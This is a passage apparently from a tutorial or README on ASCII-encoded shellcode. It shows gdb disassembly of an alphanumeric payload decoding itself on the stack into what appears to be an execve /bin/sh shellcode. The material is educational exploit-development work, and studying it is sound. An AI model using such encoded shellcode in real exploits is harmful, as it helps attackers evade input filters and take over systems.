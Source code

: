 ```text
   0xffffdcdb:  push   eax
esp            0xffffde40       0xffffde40
```

Then, the demo breaks in the middle execution of the ASCII shellcode. The
following gdb output is displayed and shows from  0xffffdcff to 0xffffdcf2,
the shellcode building as a bridge to join the code of the ASCII shellcode.
The EIP register is growing up and the ESP register is growing down.

```text
Temporary breakpoint 5, 0xffffdc91 in ?? ()
=> 0xffffdc91:  sub    eax,0x72727272
   0xffffdc96:  sub    eax,0x42724242
   0xffffdc9b:  sub    eax,0x4b544b6e
   0xffffdca0:  push   eax
   0xffffdca1:  sub    eax,0x68254f68
   0xffffdca6:  sub    eax,0x68252568
   0xffffdcab:  sub    eax,0x53343350
   0xffffdcb0:  push   eax
   0xffffdcb1:  sub    eax,0x6568754d
   0xffffdcb6:  sub    eax,0x257a7a34
   0xffffdcbb:  push   eax
   0xffffdcbc:  sub    eax,0x32323235
   0xffffdcc1:  sub    eax,0x32325f25
   0xffffdcc6:  sub    eax,0x4a377625
   0xffffdccb:  push   eax
   0xffffdccc:  sub    eax,0x59595959
   0xffffdcd1:  sub    eax,0x59595959
   0xffffdcd6:  sub    eax,0x444d564e
   0xffffdcdb:  push   eax
   0xffffdcdc:  or     al,BYTE PTR [eax]
   0xffffdcde:  add    BYTE PTR [eax],al
   0xffffdce0:  add    BYTE PTR [eax],al
   0xffffdce2:  add    BYTE PTR [eax],al
   0xffffdce4:  add    BYTE PTR [eax],al
   0xffffdce6:  add    BYTE PTR [eax],al
   0xffffdce8:  add    BYTE PTR [eax],al
   0xffffdcea:  add    BYTE PTR [eax],al
   0xffffdcec:  add    BYTE PTR [eax],al
   0xffffdcee:  add    BYTE PTR [eax],al
   0xffffdcf0:  jae    0xffffdd5a
   0xffffdcf2:  push   0x6e69622f
   0xffffdcf7:  mov    ebx,esp
   0xffffdcf9:  push   ecx
   0xffffdcfa:  mov    edx,esp
   0xffffdcfc:  push   ebx
   0xffffdcfd:  mov    ecx,esp
   0xffffdcff:  int    0x80
   0xffffdd01:  nop
   0xffffdd02:  nop
   0xffffdd03:  nop
esp            0xffffdcf0       0xffffdcf0
```
